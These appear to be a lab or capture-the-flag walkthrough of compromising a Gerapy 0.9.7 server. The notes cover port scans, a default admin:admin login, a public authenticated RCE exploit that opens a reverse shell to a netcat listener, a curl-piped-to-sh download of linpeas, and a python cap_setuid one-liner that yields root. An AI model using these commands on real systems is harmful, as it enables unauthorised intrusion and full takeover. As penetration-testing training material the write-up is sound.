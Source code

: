 Given IP target: 192.168.236.24

# Recon 
rustscan -a 192.168.236.24
	PORT     STATE SERVICE  REASON
	22/tcp   open  ssh      syn-ack
	8000/tcp open  http-alt syn-ack

Making rustscan more efficient
	sudo docker run -it --rm --name rustscan rustscan/rustscan:2.1.1 -a 192.168.236.24
```
alias rustscan='sudo docker run -it --rm --name rustscan rustscan/rustscan:2.1.1 -a'
```

nmap -p22,8000 -T5 -sC -sV -oN services.txt 192.168.236.24
	PORT     STATE SERVICE  VERSION
	22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
	|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
	8000/tcp open  http-alt WSGIServer/0.2 CPython/3.10.6
	|_http-cors: GET POST PUT DELETE OPTIONS PATCH
	|_http-server-header: WSGIServer/0.2 CPython/3.10.6
	|_http-title: Gerapy
	| fingerprint-strings: 
	|   FourOhFourRequest: 
	|     HTTP/1.1 404 Not Found
	|     Date: Wed, 01 Nov 2023 07:05:06 GMT
	|     Server: WSGIServer/0.2 CPython/3.10.6
	|     Content-Type: text/html
	|     Content-Length: 9979
	|     Vary: Origin

dirb http://192.168.236.24:8000/
	http://192.168.236.24:8000/admin
		![[Pasted image 20231101091119.png]]

tried default password b4 hydra brute
	admin:admin
		![[Pasted image 20231101091905.png]]
# Weaponization 

nc prep
	hostname -I
		192.168.45.198
	nc -nlvp 4444

Now check version number in searchsploit
	searchsploit Gerapy 0.9.7 
		----------------------------------------------- ---------------------------------
		 Exploit Title                                 |  Path
		----------------------------------------------- ---------------------------------
		Gerapy 0.9.7 - Remote Code Execution (RCE) (Au | python/remote/50640.py
		----------------------------------------------- ---------------------------------
		Shellcodes: No Results
		Papers: No Results
	searchsploit -p python/remote/50640.py
		  Exploit: Gerapy 0.9.7 - Remote Code Execution (RCE) (Authenticated)
      URL: https://www.exploit-db.com/exploits/50640
     Path: /usr/share/exploitdb/exploits/python/remote/50640.py
     cp /usr/share/exploitdb/exploits/python/remote/50640.py .
    python 50640.py -h
	    options:
	  -h, --help            show this help message and exit
	  -t URL, --target URL  Target IP
	  -p TARGET_PORT, --port TARGET_PORT Target port
	  -L LOCALHOST, --lh LOCALHOST Listening IP
	  -P LOCALPORT, --lp LOCALPORT  Listening port
	  python 50640.py -t 192.168.236.24 -p 8000 -L 192.168.45.198 -P 4444

Gotem
![[Pasted image 20231101093906.png]]
# Priv Esc

Local User flag
	cd /home
	ls
	app
	bash
	sh
	ls
	app
	cd app
	ls
	gerapy
	local.txt
	logs
	run.sh
	snap
	cat local.txt
	725a521383502b6af10cf6e567496b0a


Ran linpeas
	curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
		95% success highlighted line
			/usr/bin/python3.10 cap_setuid=ep 
				python3.10 -c 'import os; os.setuid(0); os.system("/bin/sh")'

I'm root
![[Pasted image 20231101094557.png]]
f26da5197f59ea010af2023648261201

